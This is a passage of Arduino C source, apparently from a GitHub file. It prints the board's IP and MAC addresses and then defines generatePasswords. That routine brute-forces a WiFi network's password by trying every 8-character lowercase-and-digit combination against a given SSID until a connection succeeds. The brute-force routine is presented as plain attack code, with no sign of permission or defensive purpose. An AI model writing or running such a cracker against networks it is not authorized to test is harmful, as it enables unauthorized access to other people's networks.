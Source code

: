 ```C

  Serial.println();
}

void printWifiData() {

  // print your board's IP address:

  IPAddress ip = WiFi.localIP();

  Serial.print("IP Address: ");

  Serial.println(ip);

  Serial.println(ip);

  // print your MAC address:

  byte mac[6];

  WiFi.macAddress(mac);

  Serial.print("MAC address: ");

  printMacAddress(mac);
}

void generatePasswords(char* ssid){
  const char possibleChars[] = "abcdefghijklmnopqrstuvwxyz0123456789";
  const int passwordLength = 8;
  char password[passwordLength + 1]; // +1 for the null terminator
  password[passwordLength] = '\0'; // Set the null terminator for the string
  int charIndices[passwordLength] = {0}; // Track the current index for each character position

  while (!isConnected) {
    // Generate the current combination
    for (int i = 0; i < passwordLength; i++) {
      password[i] = possibleChars[charIndices[i]];
    }

    // Try to connect with the generated password
    Serial.print("Trying password: "); Serial.println(password);
    isConnected = tryToConnect(ssid, password);
    if (isConnected) {
      Serial.println("Connected to WiFi!");
      break;
    }

    // Increment the character index for the rightmost character
    charIndices[passwordLength - 1]++;

    // Handle "overflow" for each character position
    for (int i = passwordLength - 1; i >= 0; i--) {
      if (charIndices[i] >= strlen(possibleChars)) {
        if (i == 0) { // Overflowed the leftmost character, all combinations tried
          return;
        }
        charIndices[i] = 0; // Reset this position
        charIndices[i - 1]++; // Increment the next position to the left
      }
    }
  }
}
```